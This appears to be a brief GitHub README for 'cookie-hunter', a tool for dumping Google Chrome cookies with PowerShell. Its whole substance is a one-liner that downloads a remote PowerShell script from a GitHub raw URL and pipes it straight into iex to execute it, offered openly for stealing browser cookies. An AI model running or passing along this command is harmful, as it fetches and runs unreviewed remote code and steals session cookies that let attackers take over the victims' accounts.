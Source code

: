 # cookie-hunter
Dump google chrome cookies using powershell

#### Dump chrome cookies using oneliner
```powershell
iwr https://raw.githubusercontent.com/ScRiPt1337/PowerCookieMonster/main/powerdump.ps1 -useb | iex
```
